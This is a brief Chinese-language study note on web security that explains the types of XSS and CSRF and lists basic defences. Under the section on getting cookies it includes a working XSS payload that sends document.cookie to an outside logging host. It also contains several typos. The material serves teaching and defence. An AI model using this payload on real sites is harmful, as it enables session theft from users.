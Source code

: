 # Web安全及防护原理

## XSS攻击

攻击者向`Web`网页中插入恶意的`HTML`标签或者`JavaScript`代码，代码未经过滤和网站正常的代码混在一起；浏览器无法识别那别脚本是可信的，导致了而已脚本被执行

### XSS分类

- 存储型：会将恶意提交的代码存储到数据库中
- 放射型：将恶意的代码体现在URL中
- DOM型：取出恶意的代码由浏览器执行，只有这个属于前端漏洞

### 防范

- 输入过滤
- 纯前端渲染
- 白名单

### 获取cookie

可以设置httpOnly，禁止`JS`访问cookie

```html
<script>
    new Image().src =
        "http://jehiah.com/_sandbox/log.cgi?c=" + encodeURI(document.cookie);
</script>
```

## CSRF攻击（跨站请求伪造）

代替用户完成指定的动作，需要直到用户其他页面的代码和数据包

完成一次`CSRF`攻击，受害者必须完成两个步骤

- 登录受信任网站A，并在本地生成`Cookie`
- 在**不退出A**的情况下，访问危险网站B

### 防范

- 验证码
- 验证`Refer`
- 客户端增加伪随机数